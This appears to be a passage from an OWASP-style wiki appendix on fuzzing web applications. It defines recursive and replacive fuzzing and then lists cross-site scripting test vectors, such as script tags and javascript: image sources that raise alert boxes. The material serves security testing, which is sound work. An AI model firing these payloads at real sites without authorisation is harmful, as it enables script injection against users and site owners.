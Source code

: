 The following are fuzzing vectors which can be used with [WebScarab](WebScarab "wikilink"), [JBroFuzz](JBroFuzz "wikilink"), [WSFuzzer](WSFuzzer "wikilink"), [ZAP](ZAP "wikilink") or another fuzzer. Fuzzing is the “kitchen sink” approach to testing the response of an application to parameter manipulation. Generally one looks for error conditions that are generated in an application as a result of fuzzing. This is the simple part of the discovery phase. Once an error has been discovered identifying and exploiting a potential vulnerability is where skill is required.

### Fuzz Categories

In the case of stateless network protocol fuzzing (like HTTP(S)) two broad categories exist:

-   Recursive fuzzing
-   Replacive fuzzing

We examine and define each category in the sub-sections that follow.

#### Recursive fuzzing

Recursive fuzzing can be defined as the process of fuzzing a part of a request by iterating through all the possible combinations of a set alphabet. Consider the case of:

    <nowiki>http://www.example.com/8302fa3b</nowiki>

Selecting “8302fa3b” as a part of the request to be fuzzed against the set hexadecimal alphabet (i.e. {0,1,2,3,4,5,6,7,8,9,a,b,c,d,e,f}) falls under the category of recursive fuzzing. This would generate a total of 16\^8 requests of the form:

    <nowiki>http://www.example.com/00000000</nowiki>
    <nowiki>...</nowiki>
    <nowiki>http://www.example.com/11000fff</nowiki>
    <nowiki>...</nowiki>
    <nowiki>http://www.example.com/ffffffff</nowiki>

#### Replacive fuzzing

Replacive fuzzing can be defined as the process of fuzzing part of a request by means of replacing it with a set value. This value is known as a fuzz vector. In the case of:

    <nowiki>http://www.example.com/8302fa3b</nowiki>

Testing against Cross Site Scripting (XSS) by sending the following fuzz vectors:

    <nowiki>http://www.example.com/>"><script>alert("XSS")</script>&</nowiki>
    <nowiki>http://www.example.com/'';!--"<XSS>=&{()}</nowiki>

This is a form of replacive fuzzing. In this category, the total number of requests is dependent on the number of fuzz vectors specified.

The remainder of this appendix presents a number of fuzz vector categories.

### Cross Site Scripting (XSS)

For details on XSS: [Cross-site Scripting (XSS)](Cross-site_Scripting_(XSS) "wikilink")

`>"><script>alert("XSS")</script>&`\
`"><STYLE>@import"javascript:alert('XSS')";</STYLE>`\
`>"'><img%20src%3D%26%23x6a;%26%23x61;%26%23x76;%26%23x61;%26%23x73;%26%23x63;%26%23x72;%26%23x69;%26%23x70;%26%23x74;%26%23x3a;`\
` alert(%26quot;%26%23x20;XSS%26%23x20;Test%26%23x20;Successful%26quot;)>`\
` >%22%27><img%20src%3d%22javascript:alert(%27%20XSS%27)%22>`\
`'%uff1cscript%uff1ealert('XSS')%uff1c/script%uff1e'`\
`">`\
`>"`\
`'';!--"<XSS>=&{()}`\
`<IMG SRC="javascript:alert('XSS');">`\
`<IMG SRC=javascript:alert('XSS')>`\
`<IMG SRC=JaVaScRiPt:alert('XSS')> `\